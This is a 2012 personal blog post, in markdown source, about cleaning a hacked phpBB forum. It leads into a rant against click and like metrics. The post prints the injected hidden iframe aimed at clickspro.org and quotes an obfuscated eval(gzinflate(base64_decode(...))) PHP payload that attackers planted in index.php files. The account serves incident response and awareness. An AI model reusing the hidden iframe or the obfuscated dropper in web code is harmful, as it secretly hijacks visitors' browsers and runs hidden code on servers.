 ```yaml
---
layout: post
title: "On clicks, likes, and impressions..."
date: 2012-09-27 23:34
comments: true
categories: [agalmic, rants, security, talknightlife, randomness]
sharing: true 
---
```


{% img center https://s3.amazonaws.com/dvblog/sneakz.png 960 472 'cURL' %}

Every so often, websites are hacked. Sometimes it's bad, sometimes it's harmless. The usual goal is to infect a viewer's computer with malware, perhaps to join a botnet or something to that effect. Though the ones that fall under the category of "harmless", are actually quite annoying. They are usually trying to drum up clicks, likes, and impressions on a specific site. 

And this, ladies and germs, is why the statistics on clicks, likes, and impressions is such a skewed game these days. You can't trust them...

<!-- more -->

Why not?

Well, case in point. TNL was hacked a few days ago. It happens sometimes. The webhost, <a href="http://dreamhost.com/">Dreamhost</a> for TNL is known far and wide for it's cheap and bargain-basement hosting. And they pretty much give you unlimited everything for a few dollars a month. Now, they usually don't add scads of hardware to their clusters to do this, but they subdivide what they already have, much like a cheap motel. With all this subdividing comes a lot of issues, most notably the ability for hackers and script kids to "peer over the walls", as it were, and observe what else is going on on a given server. TNL resides on a shared host, with hundreds of other sites. TNL in and of itself is secure, but it's hard for us to enforce the security when the walls built by the host are not secure, and we do not have the permission to reinforce those walls. 

So, people invariably get in.

I first noticed something was amiss when I could not login to the forum's administrative control panel. Well, I could login, but the page failed to render properly. I then noticed some suspicious redirects going on in my browser's status bar. The redirects were pointing towards a site called "clickspro.org". Now, since I helped build TNL, I know each and every aspect of it's functionality. And, clickspro.org was not part of that functionality. Plus, Ryan would not have implemented something new on TNL, since he is not really paid to do that, and if he did, he would have notified me, especially considering it's been over three years since TNL has explicitly seen any new features. 

So, I started a little investigating.

Random things of this nature have happened before, and usually the culprit is a line or two of code that is inserted at the top of a page. This code typically points to malware, but in this case, it didn't. I used the UNIX tool "cURL" to investigate. cURL will render an HTML document in your Terminal window at the code level. cURL is basically a command-line browser. 

{% codeblock %}
podbookair:podpress pod$ curl http://forum.talknightlife.com/adm/index.php?sid=1c88841aa35bdee4c5aafca116f06513
{% endcodeblock %}

This rendered the admin control panel for TNL in it's raw HTML format. Therein, I spotted the offending code:

{% codeblock %}
<iframe width="10" height="10" style="visibility:hidden;position:absolute;left:0;top:0;" src="http://click.clickspro.org/feed/frames.php?uid=56&frames=3"></iframe>
{% endcodeblock %}

That does not belong. 

So, I Googled various iterations of the offending code. This turned out to be a fairly new attack that PHP-based web applications were falling victim to, and not much was known about it other than it being benign and not malicious in intent. 

I had an email exchange with Ryan on the subject, and he suggested it was involving Javascript. As it was late, the conversation kind of ended there. TNL was still functioning, but I was locked out of the cockpit, as it were. 

The next day I chose to follow his line of reasoning. I looked around for Javascript files that did not belong. TNL is a complex, poorly-documented machine. Our fault, but it is what it is. I didn't find anything of note. The only Javascript files were legit, and needed for the operation of TNL. 

I got back to Google. I found a random forum posting on the subject at that point, over on the <a href="http://community.mybb.com/thread-126714-post-917538.html#pid917538">support site for MyBB</a>, which is a cousin of phpBB, the software that drives TNL. 

{% blockquote adormind http://community.mybb.com/thread-126714-post-917538.html#pid91753 unknown iframe on index page, Site redirecting to other from mobile %}

Same here, damn idiot hacker writes into my WordPress index.php files these lines 

{% endblockquote %}

{% codeblock %}
<?php 

eval(gzinflate(base64_decode('7L0HYBxJliUmL23Ke39K9UrX4HShCI

BgEyTYkEAQ7MGIzeaS7B1pRyMpqyqBymVWZV1mFkDM7Z28995777333nvvvf

e6O51OJ/ff/z9cZmQBbPbOStrJniGAqsgfP358Hz8iivN063ctmiZvt36387

a8c+cXpxdlNcnKFH8e4p/Pdg9/4+THfiyv66r+/et8VdVtsbzY2rnDH6/qYt

luffy4OK+zRZ5eFbN2/tlHuzsfpfO8uJi38nvTXpf5Zx9dFk0xKcqivX40L2

azfHm4qpqiLarlo2zSVOW6zQ/L/Lx9tHPYViv6l96sp599NG/b1aO7d6dlMX

075n+bVV2Nq/ri7nmez+5y3814NV/9Huti9tn9T3+hfPLZvY+OHt8V1I4+Bs

K/5DdO/p8AAAD//w==')));?>

{% endcodeblock %}

Basically, it seems that it is possible to execute a Javascript function, and obfuscate it through base64. I'm not the best at security, but I remembered base64 from my USENET days, where files were encoded in that manner to facilitate speedy transmission and also ensure a modicum of obscurity. In a nutshell, USENET kids transferred porn this way to keep it on the down-low. If you don't know what USENET is, Google it.

So, with this knowledge, I looked at some of our PHP files. I was SSHed into TNL directly, and used nano, a basic text editor, to view the offending files.
{% codeblock %}
hawks:~/talknightlife.com/forum> nano index.php
{% endcodeblock %}

{% img center https://s3.amazonaws.com/dvblog/score.png 960 480 'Score!' %}

That garbage up top is the base64-encoded Javascript which was causing my issue. Deleted it. Saved, and my ACP functionality was restored.

TNL continues on as normal. Happiness is restored to the gossip shop. Thanks to Ryan for pointing me in the right direction.

What mystifies me though, and I'm finally getting to the point of this rant, is that to implement this, it took some doing. This wasn't a ten-second hack. Some damn kid in Manila took probably about a half-hour or more to do this, all for the sake of putting a script on TNL which would generate only a few random clicks to some weird website elsewhere.

A lot of effort, for little return. Clicks, likes, and impressions. It's all a bullshit game. Your site has 100000 hits. So what? How does that convert to something tangible? If it's an ecommerce site, are people buying anything? If it's a site based on content, are people reading it? What is the meaningful metric? Oh, you have 100000 fans on Facebook? So? You only know their names, if that! Facebook took away the ability to easily browse your fanbase years ago. That number is equally meaningless. And now you have to pay Facebook to broadcast your message to all of them. Which is good for Facebook, but not-so-good for you. Statistics on web properties are always hideously inflated. To be impressed by those numbers is foolish. I would rather have 1000 people who really are engaged by my content and my product, than 50000 people who only clicked because they were told to, or if those clicks were the result of a script. 

It's sad that people actually pay for this sort of thing. It's why my tactic with regards to web properties I don't explicitly own or have control over is to get people off them as fast as possible. I'll use social media to my advantage, but my final tactic is to get people off of the social media network, and right where I can get at them one-on-one, i.e. on this very blog, or over on TNL. For the record I don't harvest emails for marketing or spam. I tend to let people contact me. I value the interaction bought about by someone who is genuinely interested in what I am saying or selling. I'd rather have that one loyal follower who will stay with me through the years because I treat them right and with respect, rather than as a commodity. I guess I'm the boutique shopkeeper with the little store off to your right, rather than the Wal-Mart. I don't play the stats game. I've opted out. I get a few score viewers here on a daily basis. But I know them, or at least of them. We have a dialog, a real relationship. Not a bunch of meaningless egocentric clicks and likes. 

Besides, my real followers, when they do choose or need to do business with me, pay real money. The pennies from clicks and likes may add up over time, but the methodology is dishonest and distasteful. And, even if I didn't find it so, it's really annoying.

Give me the real data and content. 

And to the kid in Manila? Sorry about that. I know you're just doing your job, and it's better than the alternative of street prostitution, but I have to look after my interests. If I could pay it forward, I would. Maybe I am, by doing my little part in kicking down the clicks conspiracy. 

Sidebar: If you are here searching for the solution to the jsunpack base64 clickspro problem, welcome! Take a look around after you are done fixing your systems.





